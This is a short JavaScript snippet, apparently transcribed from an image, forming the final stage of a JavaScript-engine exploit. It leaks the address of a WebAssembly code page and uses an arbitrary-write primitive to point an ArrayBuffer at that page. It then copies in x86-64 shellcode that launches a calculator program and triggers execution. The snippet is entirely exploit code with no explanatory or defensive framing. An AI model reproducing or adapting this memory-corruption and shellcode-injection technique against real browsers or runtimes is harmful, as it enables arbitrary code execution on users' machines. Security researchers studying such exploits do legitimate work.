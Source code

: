 ```javascript
console.log("Wasm shelllcode address Leak: 0x"+gethex(wasm_leak));

//copy shellcode
var buf = new ArrayBuffer(0x100);
var dataview = new DataView(buf);
var buff_addr = addrof(buf);
var backing_store_buf_addr = buff_addr+0xcn
arb_write(backing_store_buf_addr, wasm_leak);
var shellcode = [0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];
for (var i = 0;i < shellcode.length; i++) {
	dataview.setUint32(4*i,shellcode[i],true);
}

// Code exec.
f();
```
